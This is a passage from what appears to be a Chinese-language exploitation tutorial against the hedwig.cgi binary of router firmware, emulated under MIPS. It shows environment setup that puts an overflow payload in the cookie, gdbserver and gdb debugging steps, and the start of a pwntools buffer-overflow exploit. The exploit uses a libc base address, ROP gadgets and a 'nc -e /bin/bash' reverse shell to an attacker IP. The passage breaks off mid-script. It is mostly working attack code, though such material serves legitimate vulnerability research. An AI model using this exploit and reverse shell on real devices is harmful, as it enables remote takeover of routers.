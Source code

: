 然后我们在浏览器汇总访问，出现如下图所示内容，即为成功：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t013ffb2f46100eabfb.png)

我们可以将其写成一个固定的脚本，这样就可以方便执行啦。

二.设置环境变量

我们通过export的方式来设置环境变量，其中的`HTTP_COOKIE`部分，

```
export CONTENT_LENGTH="100"
export CONTENT_TYPE="application/x-www-form-urlencoded"
export HTTP_COOKIE="uid=1234`cat content1`"
export REQUEST_METHOD="POST"
export REQUEST_URI="/hedwig.cgi"
```

三.gdbserver加载hedwig.cgi

我们前面已经通过`ln -s /htdocs/cgibin /htdocs/web/hedwig.cgi`，然后我们通过下面的指令进行gdb挂载。

```
echo "uid=1234"|./gdbserver.mipsle 192.168.100.254:6666 ./htdocs/web/hedwig.cgi
```

所以写了一个脚本，在mipsel虚拟机里面执行，方便gdbserver加载程序，脚本如下：

```
#!/bin/bash
export CONTENT_LENGTH="100"
export CONTENT_TYPE="application/x-www-form-urlencoded"
export HTTP_COOKIE="uid=1234`cat content1`"
export REQUEST_METHOD="POST"
export REQUEST_URI="/hedwig.cgi"
echo "uid=1234"|./gdbserver.mipsle 192.168.100.254:6666 ./htdocs/web/hedwig.cgi
unset CONTENT_LENGTH
unset CONTENT_TYPE
unset HTTP_COOKIE
unset REQUEST_METHOD
unset REQUEST_URI
```

四.gdb-multiarch在本地加载

```
gdb-multiarch
target remote 192.168.100.3:6666
```

五.编写exp

我们依然要经过确定偏移，控制rap，lib基地址，rop链的构造，shellcode的构造等过程。确定偏移的过程依然是之前那一套，然后将其拷贝到mipsel虚拟机里面。可以得知偏移为1005，基地址为0x77f34000。我们的exp仍然分为两个部分，第一个为用system执行命令，第二个为执行shellcode的exp。

1）我们首先来看第一个exp如下

```
from pwn import *
context.arch = 'mips'
context.endian = 'little'
libc_base = 0x77f34000
system_offset = 0x53200-1
gadget1 = 0x159cc
gadget2 = 0x158C8
cmd = "nc -e /bin/bash 192.168.100.254 9999"
data = "a"*969
data += p32(libc_base+system_offset) #s0
data += "bbbb" #s1
data += "cccc" #s2
data += "dddd" #s3
```